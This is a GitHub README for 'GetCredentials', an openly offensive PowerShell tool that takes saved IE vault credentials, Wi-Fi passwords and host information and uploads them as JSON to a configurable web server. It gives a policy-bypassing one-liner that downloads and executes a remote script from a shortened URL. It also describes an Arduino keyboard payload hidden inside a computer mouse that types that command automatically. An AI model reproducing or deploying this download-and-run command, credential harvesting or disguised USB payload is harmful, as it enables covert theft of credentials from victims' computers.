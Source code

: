 # GetCredentials
Usage: powershell -nop -exec bypass -c “IEX (New-Object Net.WebClient).DownloadString(‘https://bit.ly/2El9Fyw’)"
Will get wifi credentials

.DESCRIPTION
Performs the following task
    - Get credentials from IE vault
    - Get saved wifi passwords
    - Get host information
    - Write to file to C:\temp\ (if folder exsists)
    - Upload with json to webserver "http://192.168.1.174" by default 
    
 .PARAMETERS
    -output
        Enter output path
        Example: ./GetCredentials.ps1 -output C:\windows\temp\out
    -url
        Enter url where the data will be sent as a json request
        Example: ./GetCredentials.ps1 -url http://192.168.1.174/data
        
![alt text](https://raw.githubusercontent.com/mattiasgrondahl/GetCredentials/master/output.PNG)

Keyboard_payload.ino works for Arduino leonard with swedish keyboard
Will run IEX (New-Object Net.WebClient).DownloadString("https://bit.ly/2El9Fyw")

![alt text](https://raw.githubusercontent.com/mattiasgrondahl/GetCredentials/master/IntelliMouse30.PNG)
![alt text](https://raw.githubusercontent.com/mattiasgrondahl/GetCredentials/master/IntelliMouse30_assembled.PNG)

#Todo
Figure out how to pass parameters while using IEX to be able to modify -output and -url parameter
